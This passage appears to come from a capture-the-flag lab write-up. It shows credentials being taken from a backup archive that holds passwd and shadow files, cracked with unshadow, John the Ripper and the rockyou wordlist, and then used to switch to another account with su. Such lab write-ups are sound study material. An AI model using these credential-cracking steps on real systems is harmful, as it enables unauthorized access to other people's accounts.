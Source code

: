 ```
jennifer@ip-10-10-200-238:~$ unzip /backup/1715774522.zip

jennifer@ip-10-10-200-238:~/tmp/backup$ ls -lah
total 24K
drwxr-xr-x 3 jennifer jennifer 4.0K May 15 12:02 .
drwxrwxr-x 3 jennifer jennifer 4.0K May 15 14:18 ..
drwxr-xr-x 5 jennifer jennifer 4.0K May 15 12:02 httpd
-rw-r--r-- 1 jennifer jennifer 2.1K May 15 12:02 passwd
-rw-r--r-- 1 jennifer jennifer  430 May 15 12:02 rsyncd.conf
-rw-r----- 1 jennifer jennifer 1.5K May 15 12:02 shadow
```

Cracked 3 hashes and stopped JTR before my PC explodes XD.

```
unshadow passwd shadow > hashes.txt

john --format=crypt hashes.txt -w=/usr/share/wordlists/rockyou.txt
sa:<REDACTED>:1001:1001:,,,:/home/sa:/bin/bash
triss:<REDACTED>:1003:1003:,,,:/home/triss:/bin/bash
jennifer:<REDACTED>:1004:1004:,,,:/home/jennifer:/bin/bash
```

<img src="/assets/img/sync/Untitled 7.png" alt="Untitled 7.png" style="width:800px;">

Successfully moved laterally to 'sa' user.

```
jennifer@ip-10-10-200-238:~/tmp/backup$ su - sa
sa@ip-10-10-200-238:~$ whoami
sa
sa@ip-10-10-200-238:~$ id
uid=1001(sa) gid=1001(sa) groups=1001(sa)
```

# PrivEsc

